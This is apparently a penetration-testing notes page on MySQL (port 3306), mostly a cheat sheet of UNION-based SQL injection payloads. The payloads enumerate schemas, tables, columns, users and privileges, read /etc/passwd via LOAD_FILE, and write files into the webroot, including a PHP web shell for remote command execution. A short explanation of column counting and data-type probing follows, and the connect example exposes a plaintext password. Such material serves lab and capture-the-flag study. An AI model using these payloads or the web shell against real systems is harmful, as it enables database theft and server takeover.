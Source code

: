 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# MySQL (3306)

## Usage

{% tabs %}
{% tab title="Connect" %}
```bash
mysql -h localhost -u lewis -pP4ntherg0t1n5r3c0n##
```
{% endtab %}
{% endtabs %}

For an example of MySQL usage see [Devvortex](../../boxes/easy/devvortex.md).

## SQLi

{% hint style="info" %}
The `INFORMATION_SCHEMA` database contains metadata about the server databases and tables. Its `SCHEMATA` table contains information about all server databases.
{% endhint %}

{% hint style="danger" %}
On the below commands, the comment at the end includes a space: `-- ! The #` symbol can also be used.
{% endhint %}

{% tabs %}
{% tab title="DBs" %}
```bash
a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```
{% endtab %}

{% tab title="Current DB" %}
```bash
a' UNION select 1,database(),2,3-- 
```
{% endtab %}

{% tab title="Tables" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Columns" %}
{% code overflow="wrap" %}
```bash
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```
{% endcode %}
{% endtab %}

{% tab title="Data" %}
```bash
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```
{% endtab %}
{% endtabs %}

The `FILE` privilege is needed to **READ** files.

{% tabs %}
{% tab title="User (1)" %}
```bash
a' UNION SELECT 1, user(), 3, 4-- 
```
{% endtab %}

{% tab title="User (2)" %}
```bash
a' UNION SELECT 1, user, 3, 4 from mysql.user-- 
```
{% endtab %}

{% tab title="Privileges" %}
{% code overflow="wrap" %}
```bash
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 
```
{% endcode %}
{% endtab %}

{% tab title="SUPER_PRIV" %}
```bash
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```
{% endtab %}

{% tab title="READ" %}
```bash
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```
{% endtab %}
{% endtabs %}

To **WRITE** files, in addition to the `FILE` privilege, the `secure_file_priv` variable must be disabled and the user must have write access to the location we want to write to.

| SECURE\_FILE\_PRIV value | PERMISSIONS                             |
| ------------------------ | --------------------------------------- |
|                          | Read files from anywhere.               |
| random\_directory        | Only read from the specified directory. |
| NULL                     | Cannot read/write anywhere.             |

{% tabs %}
{% tab title="SECURE_FILE_PRIV" %}
{% code overflow="wrap" %}
```bash
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--  
```
{% endcode %}
{% endtab %}

{% tab title="WRITE" %}
{% code overflow="wrap" %}
```bash
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 
```
{% endcode %}
{% endtab %}

{% tab title="RCE" %}
{% code overflow="wrap" %}
```bash
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```
{% endcode %}
{% endtab %}
{% endtabs %}

To write a webshell, we must know the **webroot**. We can find it is by using `load_file` to read the server configuration:

<table><thead><tr><th width="144">Server</th><th>Directory</th></tr></thead><tbody><tr><td>Apache</td><td>/etc/apache2/apache2.conf</td></tr><tr><td>Nginx</td><td>/etc/nginx/nginx.conf</td></tr><tr><td>ISS</td><td>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</td></tr></tbody></table>

## Example (UNION Attack)

Appropriate when the results are returned within the application's response. Two conditions must be met:

1. The invididual queries must return the same number of columns.
   * [ ] [How many columns](mysql-3306.md#number-of-columns) are returned from the original query?
2. The data types in each column must be compatible between the individual queries.
   * [ ] [Which columns are suitable](mysql-3306.md#data-types) to hold the results from the injected query?

### Number of Columns

Incrementing an `ORDER BY` clause's index until it errors. The number represents the column's index; when this exceeds the number of the actual columns we will get an index-related error.

<figure><img src="../../.gitbook/assets/lab1_sqli_test_burp.png" alt=""><figcaption><p>Figure 1: Detecting SQLi.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/lab1_orderby1_burp.png" alt=""><figcaption><p>Figure 2a: Indexing the first column.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/lab1_orderby4_burp.png" alt=""><figcaption><p>Figure 2b: Indexing the 4th column returns a server error.</p></figcaption></figure>

We can also use the `UNION SELECT NULL` payload to achieve the same goal.

<figure><img src="../../.gitbook/assets/lab1_solved_burp.png" alt=""><figcaption><p>Figure 3: Enumerating the number of columns using UNION SELECT NULL.</p></figcaption></figure>

### Data Types

Typically the data we want to exfiltrate is in text form, thus, we must enumerate which column in the original query can hold this type of data. This can be done by passing a random string column by column until the server accepts it.

<figure><img src="../../.gitbook/assets/lab2_datatype_pos1.png" alt=""><figcaption><p>Figure 4: Passing string data to the first column returns a server error.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/lab2_datatype_pos2.png" alt=""><figcaption><p>Figure 5: Passing string data to the second column is accepted by the server.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Man" %}
{% embed url="https://linux.die.net/man/1/mysql" %}
{% endtab %}

{% tab title="CheatSheet" %}
{% embed url="https://devhints.io/mysql" %}
{% endtab %}
{% endtabs %}
